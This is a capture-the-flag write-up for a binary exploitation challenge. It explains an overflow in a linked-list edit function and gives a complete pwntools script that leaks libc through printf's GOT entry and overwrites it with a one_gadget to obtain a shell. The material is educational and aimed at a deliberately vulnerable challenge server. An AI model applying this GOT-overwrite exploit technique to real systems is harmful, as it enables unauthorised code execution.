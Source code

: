 # KaterynaYushchenko

## Prompt

[Kateryna Lohvynivna Yushchenko](https://en.wikipedia.org/wiki/Kateryna_Yushchenko_(scientist)) (Ukrainian: Катерина Логвинівна Ющенко, Russian: Екатерина Логвиновна Ющенко, 8 December 1919, Chyhyryn; died 15 August 2001) was a Soviet Ukrainian computer and information research scientist, corresponding member of USSR Academy of Sciences (1976), and member of The International Academy of Computer Science. She developed one of the world's first high-level languages with indirect address in programming (Pointers are analogous to this addressing), called the Address programming language. Over the period of her academic career, Yushchenko supervised 45 Ph.D. students. Further professional achievements include Yushchenko being awarded two USSR State Prizes, The USSR Council of Ministers Prize, The Academician Glushkov Prize, and The Order of Princess Olga. Yushchenko was the first woman in the USSR to become a Doctor of Physical and Mathematical Sciences in programming. - [Wikipedia Entry (https://en.wikipedia.org/wiki/Kateryna_Yushchenko_(scientist))

Chal: We built a pwn worthy of the inventor of indirect addressing. 

Connection: `` 0.cloud.chals.io 12733``

## Solution

There is a bug in the edit function that allows you to write beyond the boundary of the item in the linked list, overwriting the pointer. 

```c
    if (strlen(newName) < 50) {
                strncpy(current->name, newName, strlen(newName));
                current->name[50] = '\0';  
            } else {
                strncpy(current->name, newName, 60);
            }
```

You can abuse this to overwrite the pointer with the address of a GOT entry. For various reasons, many of the GOT entries will cause crashes when used. The ``printf()`` ended up working without a crash. We then replace that with a call to ``one_gadget`` by adding another item that gets written at the GOT entry for printf.

```python
from pwn import *

binary = './heroine.bin_patched'

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary, checksec=False)
libc = ELF('./libc.so.6', checksec=False)

gs = '''
continue
'''


def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('0.cloud.chals.io', 12733)
    else:
        return process(e.path)


def add(heroine):
    log.info('Adding Heroine: %s' % heroine)
    p.recvuntil(b'>>>')
    p.sendline(b'2')
    p.sendline(heroine)


def edit(old, new):
    log.info('Editing %s<-%s' % (old, new))
    p.recvuntil(b'>>>')
    p.sendline(b'4')
    p.sendline(old)
    p.sendline(new)


def show():
    log.info('Showing heroines')
    p.recvuntil(b'>>>')
    p.sendline(b'1')


p = start()


def init_db():
    for i in range(0, 3):
        add(chr(0x41+i).encode()*4)


def leak():
    edit(b'B'*4, b'B'*56+p64(e.got['printf']))
    show()
    for _ in range(0, 3):
        p.recvuntil(b'<<< Cyber Heroine: ')
    leak = u64(p.recvline().strip(b'\n').ljust(8, b'\x00'))
    log.info('Printf Leak : 0x%x' % leak)
    libc.address = leak-libc.sym['printf']
    log.info('Libc Leak   : 0x%x' % libc.address)


def overwrite():
    one_gadget = libc.address+0xe3b04
    add(p64(one_gadget))


init_db()
leak()
overwrite()
p.interactive()
```